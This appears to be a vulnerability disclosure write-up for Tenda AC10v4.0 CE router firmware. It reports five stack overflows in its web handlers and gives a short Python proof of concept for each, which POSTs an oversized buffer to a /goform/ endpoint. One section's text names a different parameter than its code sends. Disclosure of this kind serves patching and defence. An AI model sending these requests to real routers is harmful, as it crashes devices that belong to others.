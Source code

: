 # TENDA AC10v4.0 CE Vulnerability

# Overview



- Firmware download website: https://www.tendacn.com/download/detail-4789.html

# Affected version



AC10v4.0 CE  Firmware V16.03.10.09 which is latest

![image-20240705143523966](./asset/image-20240705143523966.png)

# Vulnerability details

**All experiments were conducted under AC10v4.0 CE Firmware V16.03.10.09**

## stack overflow vulnerability

### 1.in setSchedWifi function

the schedEndTime parameter is not restricted



![image-20240705143617895](./asset/image-20240705143617895.png)

```
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240705143753793](./asset/image-20240705143753793.png)



### 2.in saveParentControlInfo function

The issue involves both the `deviceId` and `deviceName` parameters sharing the same storage space. Additionally, the lack of size limitation on `deviceId` has led to a stack overflow

![image-20240706153435163](./asset/image-20240706153435163.png)

![image-20240706153413463](./asset/image-20240706153413463.png)

```
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"time": "10.30","deviceId": payload,"deviceName":"shit"}
response = requests.post(url, data=data)
print(response.text)
```

### 3.in saveParentControlInfo function 

In the `saveParentControlInfo` function, `set_device_name` is not returned, allowing unrestricted setting of `deviceId`. Similarly, in the `get_parentControl_list_Info` method, insufficient size limitations on the `time` parameter result in stack overflow

![image-20240706154437870](./asset/image-20240706154437870.png)

![image-20240706154035704](./asset/image-20240706154035704.png)



![image-20240706154347065](./asset/image-20240706154347065.png)



```
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"time": payload,"deviceId": "payload","deviceName":"shit"}
response = requests.post(url, data=data)
print(response.text)
```

### 4.in formSetQosBand function 

In the `formSetQosBand` function, the `set_qosMib_list` function is called without size limitation on the `list` parameter, leading to a stack overflow

![image-20240706155011513](./asset/image-20240706155011513.png)



![image-20240706155054454](./asset/image-20240706155054454.png)

![image-20240706155803007](./asset/image-20240706155803007.png)

```
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```



### 5.in fromSetSysTime function 

In the `fromSetSysTime` function, a call to the `sub_4B2058` method uses a `timeZone` parameter without size constraints, resulting in a stack overflow

![image-20240706155532589](./asset/image-20240706155532589.png)

![image-20240706155557252](./asset/image-20240706155557252.png)



![image-20240706155420044](./asset/image-20240706155420044.png)

```
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'sync',
        'timeZone':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```


